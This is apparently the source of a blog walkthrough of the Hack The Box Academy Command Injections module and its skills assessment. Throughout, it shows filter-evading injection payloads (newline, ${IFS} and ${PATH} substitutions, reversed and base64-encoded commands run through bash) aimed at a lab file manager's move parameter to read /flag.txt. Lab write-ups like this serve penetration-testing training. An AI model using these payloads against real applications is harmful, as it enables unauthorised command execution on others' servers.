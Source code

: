 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Command Injections"
description: "Follow this comprehensive walkthrough of the Hack The Box Academy Command Injection Skills Assessment. Master command injection techniques to exploit vulnerable web applications with expert guidance from Zwarts Sec, perfect for boosting your penetration testing skills and preparing for HTB challenges."
date:   2024-10-19 13:32
image:  /images/htb/command-injection/logo.png
tags:   [command-injection,cbbh]
categories: [htbacademy]
---
```


>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/109/section/1031">Command Injection</a><br/>
<a href="https://jacozwarts.github.io/images/htb/command-injection/Command_Injections_Module_Cheat_Sheet.pdf">Command Injection - Cheat Sheet</a><br/>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space">PayloadsAllTheThings - Command Injection - Bypass without Space</a>

<hr/>

### Bypassing Other Blacklisted Characters - Exercises
#### Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?
A gotcha I ran into was I didn't add a `space` between the `;` and command I'm waas trying to execute e.g.
`Incorrect payload: 127.0.0.1${LS_COLORS:10:1}$(rev<<<'imaohw')` <br/><br/>
`Correct payload with a encoded \n (%0a)`
```
127.0.0.1${LS_COLORS:10:1}%0a$(rev<<<'imaohw')
```
![Bypassing other blacklisted characters exercise gotcha](/images/htb/command-injection/bypassing-other-blacklisted-characters-gotcha.png)

#### Final payload:
Initially, I tried the following command but didn't retrieve the user in `/home`: `127.0.0.1${LS_COLORS:10:1}%0a{ls,-la}%0a${PATH:0:1}home`. The issue stemmed from using the encoded newline character (`%0a`) immediately after `{ls,-la}`, which caused the command to execute incorrectly.

`Correct payload:`
```
127.0.0.1${LS_COLORS:10:1}%0a{ls,-la}${IFS}${PATH:0:1}home
```
<hr/>

### Bypassing Blacklisted Commands
#### Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.
```
127.0.0.1${LS_COLORS:10:1}%0a$(rev<<<'tac')${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
<hr/>

### Advanced Command Obfuscation

#### Exercise: Can you test the below command to see if it works on your Linux VM, and then try to avoid using filtered characters to get it working on the web application?
`$(a="WhOaMi";printf %s "${a,,}")`<br/><br/>
First, we tested individual characters to identify which ones were filtered, such as the semicolon (`;`), space, pipe (`|`), ampersand (`&`), etc. In our case, all of these characters were blocked except for the newline character (`%0a`). To proceed, we needed to modify our payload to avoid using these filtered characters. Another solution is to `Base64 encode` the payload to bypass the filtering<br/><br/>

**Updated command without Base64 encoding:**
```
127.0.0.1%0a$(a="WhOaMi"%0aprintf${IFS}%s${IFS}"${a,,}")
```
**Updated command with Base64 encoding:**
```
127.0.0.1%0abash<<<$(base64%09-d<<<JChhPSJXaE9hTWkiO3ByaW50ZiAlcyAiJHthLCx9Iik=)
```

#### Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1
**Execute the below command to base64 encode the payload:**
```
echo -n "find /usr/share/ | grep root | grep mysql | tail -n 1" | base64
```

```
127.0.0.1127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```
<hr/>

## Skills Assessment
><b>Overview:</b>
You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.
<br/><br/>
Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

### What is the content of '/flag.txt'?
Start by opening the target in your browser and ensure Burp Suite is intercepting all requests. Log in with the provided credentials: `guest:guest`.
![Login](/images/htb/command-injection/command-injection-skills-assessment-login.png)

Upon examining the target’s features, I identified the following functionalities:
- File Manager
![File Manager](/images/htb/command-injection/command-injection-skills-assessment-file-manager.png)
- Search Functionality
![Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-search.png)
- Advanced Search
![Advanced Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-advanced-search.png)
- View File
![View File](/images/htb/command-injection/command-injection-skills-assessment-view-file.png)
- Move File
![Move File](/images/htb/command-injection/command-injection-skills-assessment-move-file.png)
- Direct Link
![Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-direct-link.png)
- Download File
![Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-download-file.png)

I then intercepted and analyzed these features’ requests through Burp Suite, where I observed that each request has varying parameters, such as:

```
GET /index.php?to=&view=51459716.txt&quickView=1
```
```
GET /index.php?to=&from=51459716.txt
```
```
GET /index.php?to=&dl=51459716.txt
```
```
POST /index.php?to=

...

ajax=true&content=514&path=.&type=search
```
```
GET /index.php?to=&from=605311066.txt
```
```
GET /index.php?to=&from=605311066.txt&finish=1&move=1
```
### Testing for Command Injection
I tested the parameters mentioned above for potential command injection vulnerabilities and found that the to and from parameters in the 'Move File' request are vulnerable. The next step is to identify which injection operators are allowed. You can refer to the command injection <a href="https://jacozwarts.github.io/images/htb/command-injection/Command_Injections_Module_Cheat_Sheet.pdf">Cheat Sheet</a> to test various operators.

![Testing To Parameter](/images/htb/command-injection/command-injection-skills-assessment-move-file-to-parameter.png)

![Testing From Parameter](/images/htb/command-injection/command-injection-skills-assessment-move-file-from-paramter.png)

![Testing Operator](/images/htb/command-injection/comman-injection-skills-assessment-injection-operators.png)

I discovered that the operator `%26%26` is accepted. Based on the error message, it’s clear the server is using the mv command.
![Valid Operator](/images/htb/command-injection/command-injection-skills-assessment-valid-injection-operator.png)
### Command Injection Payload
```
%26%26whoami
```
![Whoami Command is blocked](/images/htb/command-injection/command-injection-skills-assessment-whoami-blocked.png)

Since whoami is blocked, I’ll encode it using base64. Here’s how to encode the whoami command:

```
echo -n "whoami" | base64
```
**Then replace the space character with a tab (%09):**
```
bash<<<$(base64%09-d<<<"d2hvYW1p")
```
When running this, I encountered the error: missing destination. So, I’ll apply the payload in the to parameter as follows:
![Missing Destination](/images/htb/command-injection/command-injection-skills-assessment-missing-destination-error.png)

```
/index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&from=696212415.txt&finish=1&move=1
```
### Gotcha:
Once you move a file, it cannot be moved again. To get around this, you’ll need to change the filename in the `from` parameter.

![Whoami Result](/images/htb/command-injection/command-injection-skills-assessment-whoami-result.png)

Now that we’ve successfully executed the `whoami` command, the next goal is to read the directory contents using `ls -la`. First, base64 encode the command:

```
echo -n "ls -la" | base64
```

```
bash<<<$(base64%09-d<<<"bHMgLWxh")
```
Update the `from` filename from `696212415.txt` to `787113764.txt` and rerun the payload.

![Read files in directory](/images/htb/command-injection/command-injection-skills-assessment-read-files-result.png)

### Reading the flag.txt File
Finally, let’s try to read the `flag.txt` file. Base64 encode the following:
```
echo -n "cat ${PATH:0:1}flag.txt" | base64
```
```
bash<<<$(base64%09-d<<<"Y2F0IC9mbGFnLnR4dA==")
```
**Change the `from` file name and test the payload.**
![Reading flag.txt content](/images/htb/command-injection/command-injection-skills-assessment-flag-result.png)
<hr/>
